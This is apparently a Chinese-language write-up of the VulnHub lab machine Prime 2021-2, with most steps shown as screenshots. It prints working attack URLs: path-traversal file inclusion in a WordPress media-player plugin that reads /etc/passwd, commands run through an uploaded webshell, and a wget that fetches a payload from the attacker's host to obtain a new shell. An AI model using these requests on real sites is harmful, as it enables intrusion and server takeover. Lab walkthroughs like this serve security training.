下载地址：https://www.vulnhub.com/entry/prime-2021-2,696/
信息收集
目标 145
端口扫描

端口服务扫描



目录扫描

Web渗透
去访问一下 80 端口

扫目录发现有点不一样

WordPress 被拦住，需要 api


那就不客气了，端口服务利用

发现 gracemedia media player 插件存在 LFI 漏洞
http://192.168.21.145/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd看了下，没什么好说的了。去看看 web 端口

下载文件一个一个看
在 uploads 里面



一句话木马
http://192.168.21.145/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home//jarves/upload/shell.php&cmd=whoami
反弹 shell


使用 wget 下载木马到 /tmp
http://192.168.21.145/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home//jarves/upload/shell.php&cmd=wget%20http://192.168.21.131:8000/1.php%20-O%20/tmp/1.php
查看下载成功
http://192.168.21.145/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home//jarves/upload/shell.php&cmd=cat%20/tmp/1.php写成功

连接新 shell
http://192.168.21.145/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../tmp/1.php
SMB 信息收集
Smb 去看了一下，一直没用，肯定有问题
啊这


SSH 登录
直接 ssh 密钥登录

远程登录

信息收集，啥也没有


提权
新的文件上传就可以

执行

好了，完成